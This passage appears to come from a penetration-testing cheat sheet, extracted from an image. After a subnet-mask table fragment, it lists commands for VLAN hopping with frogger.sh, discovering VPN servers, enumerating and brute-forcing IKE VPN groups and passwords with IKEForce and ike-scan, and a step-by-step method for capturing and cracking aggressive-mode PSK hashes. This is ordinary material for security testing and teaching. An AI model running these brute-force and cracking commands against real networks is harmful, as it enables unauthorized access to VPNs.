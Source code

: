 255.240.0.0

1048674 Hosts

/11

255.224.0.0

2097150 Hosts

/10

255.192.0.0

4194302 Hosts

/9

255.128.0.0

8388606 Hosts

/8

255.0.0.0

16777214 Hosts

VLAN Hopping
Using NCCGroups VLAN wrapper script for Yersina simplifies the process.

git clone https://github.com/nccgroup/vlan-hopping.git
chmod 700 frogger.sh
./frogger.sh 
VPN Pentesting Tools
Identify VPN servers:

./udp-protocol-scanner.pl -p ike TARGET(s)

Scan a range for VPN servers:

./udp-protocol-scanner.pl -p ike -f ip.txt
IKEForce
Use IKEForce to enumerate or dictionary attack VPN servers.

Install:

pip install pyip
git clone https://github.com/SpiderLabs/ikeforce.git
Perform IKE VPN enumeration with IKEForce:

./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
Bruteforce IKE VPN using IKEForce:

./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
IKE Aggressive Mode PSK Cracking
Identify VPN Servers
Enumerate with IKEForce to obtain the group ID
Use ike-scan to capture the PSK hash from the IKE endpoint
Use psk-crack to crack the hash
Step 1: Idenitfy IKE Servers
./udp-protocol-scanner.pl -p ike SUBNET/24
Step 2: Enumerate group name with IKEForce
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
Step 3: Use ike-scan to capture the PSK hash
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
Step 4: Use psk-crack to crack the PSK hash
psk-crack hash-file.txt
Some more advanced psk-crack options below:
